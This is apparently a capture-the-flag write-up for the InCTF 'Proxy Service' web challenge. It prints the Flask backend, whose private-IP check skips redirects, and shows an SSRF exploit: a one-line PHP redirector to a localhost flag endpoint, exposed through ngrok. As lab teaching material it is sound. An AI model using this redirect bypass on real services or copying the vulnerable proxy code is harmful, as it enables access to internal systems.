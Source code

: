 
# 🧩 InCTF - Proxy Service (Web Challenge)

> **Category**: Web  
> **Difficulty**: Hard  
> **Points**: 400  
> **Flag Format**: `inctf{*}`  

![Challenge UI](https://github.com/user-attachments/assets/a18fe345-15ec-47b5-b11d-c16b675c400e)

---

## 🕵️ Challenge: Proxy Service

**Description:**

> I developed this proxy service for InCTF players.  
> You can use it to proxy anything on the internet.  
> But I'm sure that you will not be able to find my secret. If you can prove me wrong, the flag is all yours!  
> I'm so confident that I have even attached the source code somewhere.  
> Let the game begin.  
>  
> **Flag format:** `inctf{*}`

<!--
<div align="center">
  <img src="images/3.png" alt="Proxy Service Web Interface" width="80%" />
</div>
-->
![image](https://github.com/user-attachments/assets/0bd67937-ed89-4788-90eb-a7b1c2ad9574)

---

## 🔍 Challenge Page

Opening the challenge leads to a web page that claims to proxy a URL and return its content.

![image](https://github.com/user-attachments/assets/a0467bbc-05d2-4258-ac96-490a7df981d4)

---

## 📜 Source Code Found via `/viewsource`

Inspecting the frontend revealed a hidden path hint in an HTML comment.

![image](https://github.com/user-attachments/assets/9e8b48cf-69e9-419e-8774-3ca18bf8fef5)


Visiting `/viewsource` discloses the Python backend logic:

```python
from flask import Flask, request, render_template, Response
from urllib.parse import urlparse
import ipaddress
import os
import requests
import time
import socket

app = Flask(__name__)

# Original flag in env variable
str_flag = os.getenv("FLAG", "inctf{this_is_fake_flag}")

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/proxy", methods=["POST"])
def do_request():
    try:
        url = request.form["url"]
        domain = urlparse(url).netloc

        if ":" in domain:
            domain = domain.split(":")[0]

        ip = socket.gethostbyname(domain)

        # block access to internal IPs
        if ipaddress.ip_address(ip).is_private or url.startswith("http") == False:
            return render_template("index.html", message="Access denied !")
        else:
            # Prevent Denial-of-Service attack
            time.sleep(3)
            print("Requesting: ", ip)
            r = requests.get(url)
            body = r.text
            return body

    except:
        return render_template("index.html", message="Some error occured")

@app.route("/viewsource")
def source():
    resp = Response(open("app.py").read())
    resp.headers['Content-Type'] = 'text/plain'
    return resp

@app.route("/gimme_tha_fleg")
def flag():
    # Allow flag access to internal IPs only
    if request.access_route[-1] == "127.0.0.1":
        return f"Welcome, {request.access_route[-1]}. Your flag is <code>{str_flag}</code>"
    else:
        return "Get outta here!", 403

if __name__ == "__main__":
    app.run(debug=False)

```
---

## 🔍 Vulnerability Analysis

Let’s break down the logic inside the proxy backend:

```python
ip = socket.gethostbyname(domain)
if ipaddress.ip_address(ip).is_private or url.startswith("http") == False:
    return render_template("index.html", message="Access denied!")
```

Here’s what it tries to do:

- Blocks **private/internal IPs** (e.g. 127.0.0.1, 192.168.0.0/16, etc.)
- Requires URLs to start with `http`

However, this **only checks the resolved IP** of the **initial domain**, not if it redirects to internal services!

---

## 🔄 Exploiting SSRF via Redirects

We host a PHP redirector locally:

```php
<?php header("Location: http://localhost/gimme_tha_fleg"); ?>
```

Save this as `index.php` and start a local PHP server:

![image](https://github.com/user-attachments/assets/097a8093-985b-4478-b3f6-d5581e903615)


```bash
php -S localhost:8080
```

Then we expose it to the internet using **ngrok**:

```bash
ngrok http 8080
```

![image](https://github.com/user-attachments/assets/a0d8cd44-35f0-445e-bef8-d82fa234203e)


---

## 🎯 Exploiting the Challenge

Now, enter the ngrok URL into the proxy field:

![image](https://github.com/user-attachments/assets/0945edea-3ee8-4dd7-98f8-7337f2fb2046)


The backend:

1. Resolves the ngrok domain (a public IP)
2. Allows the request ✅
3. Follows the HTTP 302 redirect to `http://localhost/gimme_tha_fleg`
![image](https://github.com/user-attachments/assets/7799d6fd-d629-4209-9173-61ddc1c5f849)

4. Since `request.access_route[0] == 127.0.0.1`, the flag is returned

---

## 🏁 Flag

After successful redirection, the response reveals the flag:

```html
Welcome, 127.0.0.1 Your flag is inctf{i_hacked_a_proxy_service_and_all_i_got_is_this_flag_:/}
```
![image](https://github.com/user-attachments/assets/0d22b2dd-8aca-4421-aa90-276930da0987)

---

## ✅ Summary

- Vulnerability: **SSRF with open redirect bypass**
- Server only blocks **initial domain resolution**, not redirects
- Using a **redirector**, we hit an internal endpoint from the outside

> **Lesson:** Always check the final destination of redirects, not just the first hop.

---

## 🎥 Video Walkthrough

Watch the full walkthrough here: [YouTube Link 🔗](https://youtu.be/EBxGCKXRG44?si=i3aW5L1ybAZ6e6I7)

---
